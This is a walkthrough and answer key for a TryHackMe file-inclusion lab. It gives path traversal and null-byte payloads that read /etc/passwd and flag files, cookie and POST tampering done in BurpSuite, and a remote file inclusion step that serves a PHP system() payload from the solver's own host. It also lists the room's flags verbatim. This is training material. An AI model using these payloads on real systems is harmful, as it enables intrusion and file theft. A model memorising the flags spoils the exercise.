



Link to room: https://tryhackme.com/room/fileinc

# Questions:

- Task 1
	- Let's continue to the next section to deploy the attached VM.
		- No answer needed

- Task 2
	- Once you've deployed the VM, please wait a few minutes for the webserver to start, then progress to the next section!
		- No answer needed

- Task 3
	- What function causes path traversal vulnerabilities in PHP?
		- file_get_contents

- Task 4	
	- Give Lab #1 a try to read /etc/passwd. What would the request URI be?
		- /lab1.php?file=/etc/passwd
	- In Lab #2, what is the directory specified in the include function?
		- includes

- Task 5
	- Give Lab #3 a try to read /etc/passwd. What is the request look like?
		- lab3.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd%2500
		- Note: This must be done in the uri and not the interface since it will URL encode the null byte
	- Which function is causing the directory traversal in Lab #4?
		- file_get_contents
	- Try out Lab #6 and check what is the directory that has to be in the input field?
		- THM-profile
	- Try out Lab #6 and read **/etc/os-release**. What is the VERSION_ID value? 
		- 12.04
		- URI: THM-profile/../../../../../etc/os-release

- Task 6
	- We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
		- No answer needed

- Task 7
	- Ready for the challenges?
		- No answer needed

- Task 8
	- Capture Flag1 at /etc/flag1
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall1.php 
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change request method to POST
			5. file=../../../../../etc/flag1
		- Flag
			- F1x3d-iNpu7-f0rrn
	- Capture Flag2 at /etc/flag2
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall2.php
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change cookie to ../../../../../etc/flag2
			5. Notice there is a php appended to the end 
			6. Change cookie to ../../../../../etc/flag2%00
		- Flag
			- c00k13_i5_yuMmy1
	- Capture Flag3 at /etc/flag3
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall3.php
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change request method to POST
			5. file=../../../../../etc/flag3
			6. .php added to the end 
			7. file=../../../../../etc/flag3%00
		- Flag
			- P0st_1s_w0rk1in9
	- Gain RCE in Lab \#Playground /playground.php with RFI to execute the hostname command. What is the output?
		- How to get the answer:
			1. run python3 -m http.server 4444 on local machine
			2. Submit http://xx.xx.xx.xxx:4444/cmd.php
			3. See if there is a request to that file (Should return 404 error)
			4. Make a file named [cmd.php](cmd.php)
			5. Insert `<?PHP system('hostname'); ?>` into file
			6. Resubmit step 2
		- Flag
			- lfi-vm-thm-f8c5b1a78692
	

